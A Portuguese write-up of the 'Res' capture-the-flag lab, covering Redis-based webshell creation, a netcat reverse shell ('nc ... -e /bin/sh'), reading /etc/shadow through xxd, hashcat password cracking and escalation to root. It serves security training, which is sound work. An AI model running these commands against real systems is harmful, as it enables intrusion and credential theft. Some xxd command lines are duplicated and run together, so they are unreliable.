

O laboratório Res propõe um ambiente Linux vulnerável, focado em exploração de serviços, manipulação de banco de dados Redis, obtenção de shells reversos e escalonamento de privilégios utilizando técnicas avançadas. O objetivo é obter acesso root, passando por diferentes etapas de exploração, raciocínio lógico e uso de ferramentas clássicas de pós-exploração.
Este relatório detalha cada fase do processo, explicando comandos, decisões e boas práticas para alcançar o objetivo final.
O primeiro passo foi realizar uma varredura de portas e serviços utilizando o nmap para identificação. Inicialmente, usei
nmap -v -Pn -sV 10.10.14.249
nmap -v -Pn -sV 10.10.14.249 -T4
nmap -v -sV 10.10.14.249 -T5
Mas todos resultaram apenas uma porta, busquei outra solução, e executando o seguinte deu certo, e também foi revelado o gerenciador de banco de dados (como já era indicado pelo próprio titulo da Room…).
nmap -v -p- --min-rate 1000 -sV MACHINE_IP

Agora precisamos “trabalhar” no CLI desse banco de dados, podemos usar
redis-cli -h MACHINE_IP
info SERVER

Com a versão identificada, a Room joga a bola para a gent, comprometer a máquina e localizar o arquivo users.txt. Sabendo que o diretório padrão do webserver é /var/www/html, configuramos o Redis para criar um webshell.

Após a configuração, acessamos MACHINE_IP/shell.php e obtivemos um webshell funcional.

Com o webshell, foi possível executar comandos diretamente pela URL, como ?cmd=ls, facilitando a enumeração de arquivos e diretórios.

Mas a usabilidade desse shell pela URL está péssima, então precisamos de uma reverse shell.
Para obter um reverse shell, iniciamos um listener na máquina atacante:
nc -lnvp 4545
Em seguida, na url podemos usar `nc MACHINE_IP 4545 -e /bin/sh` na URL. E temos o shell:
nc MACHINE_IP 4545 -e /bin/sh

Com a shell ativada, foi possível navegar até o diretório /home e vemos que só tem um usuário, e podemos encontrar a key.

Para escalar privilégios, precisei do GTFOBins, explorando o binário xxd para ler arquivos restritos, como /etc/shadow para obter o hash da senha:

LFILE=/root/root.txt
usr/bin/xxd "$LFILE" | xxd -r usr/bin/xxd "$LFILE" | xxd -r
Com isso, podemos usar `xxd /etc/shadow`, mas o resultado apareceu “quebrado”:

isso pode ser resolvido usando xxd /etc/shadow | xxd -rxxd -r
Com o hash extraído do arquivo /etc/shadow usei o hashcat para quebra de senha:
hashcat -a 0 -m 1800 'hash' /usr/share/wordlists/rockyou.txt

Com isso, temos a senha do user vianka. Mas com o shell nesse momento não foi possível usar a senha, então precisei de um “upgrade” com
python3 -c 'import pty;pty.spawn("/bin/bash")'
Estando como vianka não foi possivel acessar o /root. Porém foi possivel usar sudo su e conseguimos esse acesso com a mesma senha.

O lab Res é excelente para praticar conhecimentos em enumeração, exploração de serviços, pós-exploração e escalonamento de privilégios em sistemas Linux.